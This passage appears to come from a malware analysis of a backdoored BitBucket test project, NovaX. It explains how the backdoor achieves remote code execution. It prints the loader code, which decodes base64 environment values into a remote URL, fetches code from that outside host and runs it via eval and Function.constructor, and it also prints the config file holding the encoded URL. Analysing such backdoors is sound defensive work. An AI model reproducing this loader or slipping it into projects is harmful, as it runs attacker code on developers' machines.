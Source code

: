  The final part of the chain is the most dangerous. The attacker uses:
  ```javascript
    .then(r => eval(r.data))
  ```
  This means that whatever response the server sends back (r.data) will be evaluated and executed as JavaScript inside the victim’s Node.js environment.

  If the attacker returns a payload that installs malware, opens a reverse shell, or performs lateral movement, it will execute with the same permissions as the current process. This is a classic example of Remote Code Execution (RCE), and is especially dangerous because:
  
  - It bypasses most static detection tools due to obfuscation.
  - It allows post-infection payloads to change over time. The attacker can now execute any code they control.
  - It executes code as part of what appears to be a legitimate module.
  
  This is **full-blown remote code execution (RCE)**. The attacker could run arbitrary scripts, install malware, or open reverse shells.


#### The Stealth Backdoor
The attacker now uses a more direct approach without NPM. They simply put the backdoor code inside the test project: [NovaX](https://bitbucket.org/web3_space/novax/src/main/). This appears to be an older tactic they used to use in other projects under the same username on BitBucket, which they seem to have recreated (deleted the project and recreate the same project with identical name and code to make it seem like it's a new project) and probably going to be using again. 

**File: auth/controllers/userController.js**
```javascript
.....import packages
require("dotenv").config({
    path: path.resolve(__dirname, "../config/.config.env"),
});
.....many lines of code
//Get Cookie
exports.getCookie = asyncErrorHandler(async (req, res, next) => {
  const src = atob(process.env.DEV_API_KEY);
  const k = atob(process.env.DEV_SECRET_KEY);
  const v = atob(process.env.DEV_SECRET_VALUE);
  const s = (await axios.get(src,{headers:{[k]:v}})).data.cookie;
  const handler = new (Function.constructor)('require',s);
  handler(require);
})();
.....more code
```

**File: auth/config/.config.env**
```bash
DEV_API_KEY="aHR0cHM6Ly9hcGkubnBvaW50LmlvLzE0ODk4NDcyOWUxMzg0Y2JlMjEy"
DEV_SECRET_KEY="eC1zZWNyZXQta2V5"
DEV_SECRET_VALUE="Xw=="
```

**Summary of what changed:**

- NPM dependency no longer used
- Payload embedded directly in source
- Less obfuscation, but still effective
- Environment variables used to conceal malicious URL and headers
